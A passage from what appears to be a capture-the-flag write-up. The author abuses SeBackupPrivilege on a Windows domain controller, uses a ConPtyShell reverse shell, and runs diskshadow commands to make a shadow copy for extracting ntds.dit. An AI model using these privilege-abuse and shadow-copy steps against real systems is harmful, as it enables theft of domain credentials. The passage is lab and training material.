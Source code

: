 I grab the user hash from `C:\Users\svc-backup\desktop\user.txt` then move onto enumerating for privilege escalation opportunities. A `whoami /all` reveals the `SeBackupPrivilege` which gives this user read access to all files on the system as long as the `FILE-FLAG-BACKUP-SEMANTICS` flag is set on the file copying function that we use. So, we need to utilize a script that does that to utilize the read only capability.

Having loaded in and imported the SeBackupPrivilege DLLs, I can use `Copy-FileSeBackupPrivilege` to copy over the `root.txt` hash. That's not very fun, however, and I want to fully compromise this machine and become Administrator.

There's a `note.txt` file in the Administrator's desktop, so I copy that over and read it.

```text
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

I can't simply copy the ntds.dit file since it is constantly in use by the active directory database. So first, I need to create a &ldquo;Shadow copy&rdquo; of the filesystem using the `diskshadow.exe` utility that is conveniently already installed on the system.

The evil-winrm &ldquo;shell&rdquo; isn't sufficient for the interactive diskshadow binary. I do some googling and find ConPtyShell. I use Method 2, which took some troubleshooting that led me to realize that `tmux` was messing up my shell.

So I catch the shell in a non-tmux session.

I follow the instructions specified at <https://pentestlab.blog/tag/diskshadow/>, except for one additional command that i needed to run since the directory I was in was read-only.

```text
PS C:\Users\svc_backup\desktop> diskshadow
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  3/21/2023 6:14:03 PM


DISKSHADOW> set context persistent nowriters'

SET CONTEXT { CLIENTACCESSIBLE | PERSISTENT [ NOWRITERS ] | VOLATILE [ NOWRITERS ] }

        CLIENTACCESSIBLE        Specify to create shadow copies usable by client versions of Windows.
        PERSISTENT              Specify that shadow copy is persist across program exit, reset or reboot.
        PERSISTENT NOWRITERS    Specify that shadow copy is persistent and all writers are excluded.
        VOLATILE                Specify that shadow copy will be deleted on exit or reset.
        VOLATILE NOWRITERS      Specify that shadow copy is volatile and all writers are excluded.

        Example: SET CONTEXT CLIENTACCESSIBLE

DISKSHADOW> set context persistent nowriters

DISKSHADOW> add volume c: alias AliasName

DISKSHADOW> set metadata C:\Users\svc_backup\desktop\metadata.cab
The metadata file name path specifies a directory that is read-only.
```